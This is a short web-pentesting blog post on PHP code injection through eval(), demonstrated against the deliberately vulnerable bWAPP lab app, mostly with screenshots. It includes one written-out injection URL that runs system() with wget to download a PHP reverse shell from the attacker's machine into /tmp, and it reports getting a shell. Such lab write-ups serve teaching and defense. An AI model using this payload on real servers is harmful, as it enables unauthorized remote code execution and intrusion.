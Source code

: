 ```yaml
---
layout: post
title: PHP Code Injection
categories:
  - Web-Pentesting
---
```


<br>PHP code injection is a vulnerability that allows an attacker to inject custom code into the server side scripting engine. This vulnerability occurs when an attacker can control all or part of an input string that is fed into an eval() function call. Eval will execute the argument as code.
<br>As you can see the message is showing in the URL, we can manipulate it

![37](https://teckk2.github.io/assets/images/Web%20Pentest/A1/37.png)
![38](https://teckk2.github.io/assets/images/Web%20Pentest/A1/38.png)
<br>Now how can we exploit this?
![39](https://teckk2.github.io/assets/images/Web%20Pentest/A1/39.png)
<br>Using the PHP system module, we can execute any system commands and get shell
<br>Now to get shell we cannot directly run nc or any one-liner, in alternate to that we can upload a php-reverse shell and execute it using this RCE.
<br>First host your php payload,
![40](https://teckk2.github.io/assets/images/Web%20Pentest/A1/40.png)
<br>Then download it into the victim’s machine
![41](https://teckk2.github.io/assets/images/Web%20Pentest/A1/41.png)
<br><font color="Black">192.168.140.138/bWAPP/phpi.php?message="a";system("wget http://192.168.140.136/teck-nc.php -O /tmp/teck.php")</font>

<br>Our file has been uploaded successfully now let’s try to trigger that file and get reverse shell.
![42]https://teckk2.github.io/assets/images/Web%20Pentest/A1/42.png
<br>And we got the shell.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

